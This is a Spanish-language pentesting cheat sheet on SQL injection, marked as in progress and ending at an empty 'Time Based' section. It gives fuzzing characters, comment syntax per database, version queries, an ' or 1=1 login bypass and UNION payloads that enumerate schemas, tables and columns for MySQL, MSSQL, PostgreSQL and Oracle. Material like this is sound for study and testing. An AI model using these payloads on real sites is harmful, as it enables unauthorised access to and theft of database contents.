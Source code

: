 # SQL Inyection \[in progress]

Este tipo de ataque le permite a un atacante el ejecutar querys en un campo vulnerable de la págian web, permitiendo ejecutar comandos en la base de datos que de otra manera no podría acceder. Esto permite el obtener información de la/las base/s de datos en el servidor, ejecución remota de comandos a través de otras vulnerabilidades o una denegación de servicio.



## **Indice**

* [Descubrimiento](sql-inyection-in-progress.md#descubrimiento)
  * [Comentarios](sql-inyection-in-progress.md#comentarios)
  * [Database Version](sql-inyection-in-progress.md#database-version)
* [Tipos](sql-inyection-in-progress.md#tipos)





## Descubrimiento

Lo primero será fuzzear los campos que se conecten con el backed para ver si responden de una manera inesperada al tratar de romper la query:

```
'
"
`
')
")
`)
'))
"))
`))
```

#### Comentarios

| Oracle   | Microsoft     | PostgreSQL    | MySQL         |
| -------- | ------------- | ------------- | ------------- |
| --coment | --coment      | --coment      | #comment      |
|          | /\*comment\*/ | /\*comment\*/ | --coment      |
|          |               |               | /\*comment\*/ |

#### Database Version

```sql
# Oracle
SELECT banner FROM v$version
SELECT version FROM v$instance

# Microsoft
SELECT @@version

# PostgreSQL
SELECT version()

# MySQL
SELECT @@version
```

#### Logical Error Operators

```clike
page.asp?id=1 or 1=1 -- true
page.asp?id=1' or 1=1 -- true
page.asp?id=1" or 1=1 -- true
page.asp?id=1 and 1=2 -- false
```





## In-Band SQL Injection

En este tipo de inyección el atacante utiliza el **mismo canal** de comunicación que la base de datos para mostrar la data en la página, habiendo 2 tipos: Error based y Union Based.

### Error Based

Este tipo de inyeccion se aprovecha de los errores que muestra la base de datos al usuario, pudiendo **enumerar** información o en ocasiones toda la base de datos.

| Descripción                    | Query                      |
| ------------------------------ | -------------------------- |
| Enum columns with **ORDER BY** | ' order by 1,2,3-- -       |
| Enum columns with **UNION**    | ' union select 1,2,3,4-- - |

#### Explotación

En este caso hay una página que devuelve información de un usuario si se validan las credenciales de este, y como se puede apreciar si se pone una **'** después del usuario esto romperá la query:

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Por lo que si le añadimos **'--** al usuario admin comentaremos la seccion de AND password='' y bypasearemos este campo:

![](<../.gitbook/assets/image (18).png>)

Esto solo se aplicaría para el usuario admin, pero si queremos hacerlo para todos podemos aplicar un operador lógico **' or 1=1-- -** para que devuelva información de todos:

![](<../.gitbook/assets/image (51).png>)



### Union Based

En este tipo de inyección es parecida a la error-based en la diferencia que en esta se puede obtener información de la base de datos actual (o de otras) extendiendo la query.

**MySQL, Microsoft PostgreSQL:**

<table><thead><tr><th width="247">Descripción</th><th>Query</th></tr></thead><tbody><tr><td>Enumerar Bases de datos</td><td>' UNION SELECT 1,table_schema FROM information_schema.schemata-- -</td></tr><tr><td>Enumerar DB::tablas</td><td>' UNION SELECT null, concat(table_schema,'::',table_name) FROM information_schema.columns-- -</td></tr><tr><td>Enumerar Columnas</td><td>' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name='&#x3C;Table Name>' -- -</td></tr></tbody></table>

**Oracle**

<table><thead><tr><th width="252">Descripción</th><th>Query</th></tr></thead><tbody><tr><td>Listar tablas</td><td>' UNION SELECT null, table_name FROM all_tables-- -</td></tr><tr><td>Listar columnas</td><td>' UNION SELECT null, column_name FROM all_tab_columns WHERE table_name = '&#x3C;Table Name>'-- -</td></tr></tbody></table>

## Blind SQL Injection

En este tipo de inyección no se obtiene un código de error por parte del servidor, sino que dependiendo de la respuesta del servidor ante la query que enviemos se podrá explotar correctamente, ya que a veces depende del código de estado que devuelva el servidor, si muestra o no información, o el tiempo que tarde en responder.

### **Time Based**



